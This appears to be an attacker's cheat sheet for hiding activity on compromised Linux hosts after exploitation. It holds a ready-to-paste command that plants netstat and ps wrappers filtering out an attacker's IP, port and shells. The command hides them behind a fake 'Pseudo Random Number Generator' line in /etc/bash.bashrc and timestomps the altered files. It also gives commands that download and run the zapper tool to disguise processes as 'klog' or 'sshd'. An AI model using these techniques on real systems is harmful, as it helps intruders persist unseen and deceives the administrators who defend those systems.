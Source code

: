 # Living off the Land

## 01 - Hidden Process

> [!CAUTION] OPSEC Consideration
> This does not hide the command line arguments.

```
$ <commands> <(<commands>)

$ (exec -a syslogd <commands>)
```

Creating a shell function in the resource files (`~/.bashrc`, `~/.zshrc`) to make the process hidden.

```
$ echo -e 'netstat(){ command netstat "$@" | grep -Fv -e :<attacker_PORT> -e <attacker_IP>; } ps(){ command ps "$@" | exec -a GREP grep -Fv -e /bin/bash -e GREP; }' > /usr/bin/prng \ &&
echo ". prng #Initialize Pseudo Random Number Generator" >>/etc/bash.bashrc \ &&
touch -r /etc/ld.so.conf /usr/bin/prng /etc/bash.bashrc
```

## 02 - Hidden Commands

Download pre-compiled binary.

```
$ curl -fL -o zapper https://github.com/hackerschoice/zapper/releases/latest/download/zapper-linux-$(uname -m)

$ wget --no-hsts -qO zapper https://github.com/hackerschoice/zapper/releases/latest/download/zapper-linux-$(uname -m)

$ chmod 755 zapper
```

Execute commands but zap all options and show it as `klog` in the process list.

```
$ ./zapper -a klog <commands>
```

Started as a daemon and sshd-style name.

```
$ (./zapper -a 'sshd: root@pts/0' <commands> &)
```

## 03 - Multiplexer

### 3.1 - GNU Screen

Use the multiplexer to execute commands then attach the session name.

```
$ screen -dmS <session_name> <commands>

$ screen -x <session_name>
```

### 3.2 - Tmux

Use the multiplexer to execute commands then attach the session name.

```
$ tmux
```

## 04 - Terminating Process

Terminate process with an identifier.

```
$ kill -9 <pid>
```

Terminate process with a string.

```
$ pkill -9 <program>
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x00 - Discovery/Desktop/Linux/Host/0xH - Processes/List Processes/Manual/Living off the Land]]

### Source Repositories

- [hackerschoice: THC's favourite Tips, Tricks & Hacks (Cheat Sheet)](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)

- [hackerschoice: zapper](https://github.com/hackerschoice/zapper)
